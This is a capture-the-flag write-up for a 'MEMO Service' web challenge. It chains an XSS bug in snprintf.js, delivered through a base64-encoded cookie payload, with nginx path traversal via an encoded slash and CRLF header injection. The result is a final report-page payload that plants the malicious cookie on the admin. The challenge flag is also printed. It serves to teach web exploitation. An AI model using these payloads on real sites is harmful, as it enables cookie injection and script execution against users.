



That was tough :|

### XSS Injection
First, we need to be able to XSS injection the website.
There is bug in the `snprintf.js` file, that you can insert `%3c`, and then it'll take the next memo[i], and will execute:
```js
arg = String.fromCharCode(parseInt(arg, 10))
```

By this way, we can give this cookie for example:
`["%3c>","39"]` 
base64 encode:
  *`WyIlM2M+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KCdYU1MtaW5qZWN0b2luKioqKih+LV8tfikqKioqJyk+IiwiMzkiXQ==`*



#### Building the cookie

You can use this script [cookie_build.py]
```scripts/MEMO_Service_cookie_build.py

```
, for building your cookie, Change the `URL`, for your own webhook.

### Path Traversal

Ngnix is vulnerable to path traversal with this encoded slash `%2f`, we can go here: `/static/favicon.ico%2f..%2f..%2f`, and by this way access the home page.

### Header Injection Using CLRF

We can inject the `favicon.ico` using CLRF, and by this way modify the request.


## ATTACK

we send the admin to the vulnerable page using the `header Injection`, and the `path traversal`. 
Then, we send in the headers `Set-Cookie`, and send the cookie that cause the `XSS Injection`.

At the end, this is what we'll supply to the report page
`favicon.ico%2f..%252f..%2f%0d%0aSet-Cookie:memo=ourMaliciousCookie`



**Flag:** ***`FLAG{giant_double_burger}`*** 

